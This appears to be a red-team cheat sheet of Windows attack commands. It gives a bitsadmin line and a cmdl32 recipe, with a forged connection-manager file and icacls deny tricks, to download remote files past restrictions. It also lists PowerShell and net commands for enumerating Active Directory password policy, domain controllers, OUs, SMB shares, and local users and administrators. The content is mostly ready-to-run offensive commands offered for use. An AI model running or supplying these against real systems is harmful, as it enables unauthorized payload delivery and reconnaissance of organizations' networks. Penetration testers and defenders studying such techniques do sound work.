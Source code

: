 # RedTeam-CheatSheet

## Living off the Land
https://lolbas-project.github.io/#  
### Examples
#### Bitsadmin
`bitsadmin /transfer "import" https://<URL> C:\Users\<user>\output.txt`
#### cmdl32
1. Create a file '_settings.txt_'
```
[Connection Manager]
CMSFile=settings.txt >> settings.txt
ServiceName=WindowsUpdate >> settings.txt
TunnelFile=settings.txt >> settings.txt
[Settings] >> settings.txt
UpdateUrl=<URL of Remote File>
```
2. Run the following commands to download remote file

```
icacls %cd /deny %username%:(OI)(CI)(DE,DC)
set tmp=%cd%
cmdl32 /vpn /lan %cd%\settings.txt
icacls %cd% /remove:d %username%
```
3. Remove icacls
`icacls %cd% /remove:d %username%`

## AD Enumeration
### Domain Controllers
```
# Password Policies
Get-ADDefaultDomainPasswordPolicy
Get-ADDomainController -filter * | select Name, IPv4Address
```
### Organizational Units and Device Searches
```
# Organizational Units (OU's)
Get-ADOrganizationalUnit -Filter 'Name -like "*"' | Format-Table Name, DistinguishableName -A

# Get Computers within the OU's
Get-ADComputer -SearchBase "<OU-String>" -Filter * | Select-Object -ExpandProperty Name
```
### File Shares 
```
# Store devices in an OU into $FileServAD
$FileServAD = Get-ADComputer -SearchBase "OU=Servers,DC=corp,dc=ad" -Filter * | Select-Object -ExpandProperty Name

# Get SMB Shares on all the devices
Invoke-Command -ComputerName $FileServAD -ScriptBlock {Get-SmbShare -Special $false}
```

## Local
### Host Information
```
# System Info
sysinfo

#Networking
ipconfig /all
hostname
```

### Users and Groups
```
net users
net user <username>
net localgroups
net localgroup Administrators
```
